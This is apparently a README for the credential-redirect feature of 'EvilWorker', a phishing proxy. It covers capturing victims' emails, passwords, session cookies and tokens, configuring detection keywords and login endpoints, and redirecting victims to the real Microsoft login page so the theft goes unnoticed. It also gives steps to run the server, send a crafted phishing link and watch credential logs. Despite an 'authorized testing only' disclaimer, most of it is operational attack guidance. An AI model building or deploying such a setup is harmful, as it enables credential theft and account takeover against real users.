 # 🔐 EvilWorker Credential Redirect Feature

This feature automatically redirects users to the legitimate service after collecting their credentials (email and password), making the phishing attack more seamless and less detectable.

## 🚀 How It Works

1. **Credential Detection**: The framework monitors for:
   - Login form submissions with email/password fields
   - Credential-related cookies (auth, token, session, etc.)
   - Login endpoint requests

2. **Automatic Redirect**: Once credentials are detected, the user is automatically redirected to the legitimate service

3. **Seamless Experience**: The victim gets redirected to the real login page, making the attack appear legitimate

## ⚙️ Configuration

### Environment Variables

```bash
# Enable/disable credential redirect (default: true)
ENABLE_CREDENTIAL_REDIRECT=true

# URL to redirect to after collecting credentials
CREDENTIALS_REDIRECT_URL=https://login.microsoftonline.com/
```

### Configuration File (`config.js`)

```javascript
module.exports = {
    credentials: {
        // Enable/disable automatic redirect
        enableRedirect: true,
        
        // Redirect URL
        redirectUrl: "https://login.microsoftonline.com/",
        
        // Keywords to detect credential cookies
        credentialKeywords: [
            'email', 'password', 'credential', 'auth', 'token', 
            'session', 'login', 'username', 'user', 'pass'
        ],
        
        // Login endpoints to monitor
        loginEndpoints: [
            '/login', '/signin', '/auth', '/authenticate', '/signon',
            '/common/login', '/common/signin', '/oauth2/authorize'
        ],
        
        // Form fields that indicate credentials
        credentialFields: [
            'email', 'password', 'username', 'user', 'pass', 'pwd',
            'login', 'signin', 'auth', 'credential'
        ]
    }
};
```

## 📊 Logging

When credentials are collected and redirect occurs, the framework logs:

```json
{
    "timestamp": "2025-01-14T10:47:06.359Z",
    "session": "abc123def456",
    "event": "CREDENTIALS_COLLECTED",
    "redirectUrl": "https://login.microsoftonline.com/",
    "cookies": [...],
    "lastRequestBody": "..."
}
```

## 🔧 Customization Examples

### Redirect to Different Service

```javascript
// config.js
module.exports = {
    credentials: {
        redirectUrl: "https://accounts.google.com/signin",
        // ... other settings
    }
};
```

### Disable Redirect

```javascript
// config.js
module.exports = {
    credentials: {
        enableRedirect: false,
        // ... other settings
    }
};
```

### Custom Credential Detection

```javascript
// config.js
module.exports = {
    credentials: {
        credentialKeywords: [
            'email', 'password', 'credential', 'auth', 'token', 
            'session', 'login', 'username', 'user', 'pass',
            'myapp_auth', 'custom_token'  // Add custom keywords
        ],
        credentialFields: [
            'email', 'password', 'username', 'user', 'pass', 'pwd',
            'login', 'signin', 'auth', 'credential',
            'myapp_user', 'myapp_pass'  // Add custom fields
        ]
    }
};
```

## 🛡️ Security Features

- **Encrypted Logging**: All credential events are encrypted before logging
- **Session Isolation**: Each victim session is tracked separately
- **Cache Prevention**: Redirect headers prevent browser caching
- **Configurable Detection**: Adjustable sensitivity for credential detection

## 📝 Usage Example

1. **Start the server**:
   ```bash
   node proxy_server.js
   ```

2. **Send phishing link** to target:
   ```
   https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2F
   ```

3. **Monitor logs** for credential collection events:
   ```bash
   tail -f phishing_logs/*.log
   ```

## ⚠️ Important Notes

- **Legal Use Only**: This tool is for authorized security testing only
- **Ethical Considerations**: Always obtain proper authorization before testing
- **Data Protection**: Ensure collected data is handled securely and deleted after testing
- **Compliance**: Follow local laws and regulations regarding security testing

## 🔍 Troubleshooting

### Redirect Not Working

1. Check if `enableRedirect` is set to `true` in config
2. Verify the `redirectUrl` is accessible
3. Check console logs for credential detection messages
4. Ensure login endpoints are correctly configured

### False Positives

1. Adjust `credentialKeywords` to be more specific
2. Modify `credentialFields` to match your target service
3. Update `loginEndpoints` to match the actual login URLs

### Logging Issues

1. Verify `enableCredentialLogging` is enabled
2. Check file permissions for log directory
3. Ensure encryption key is properly set

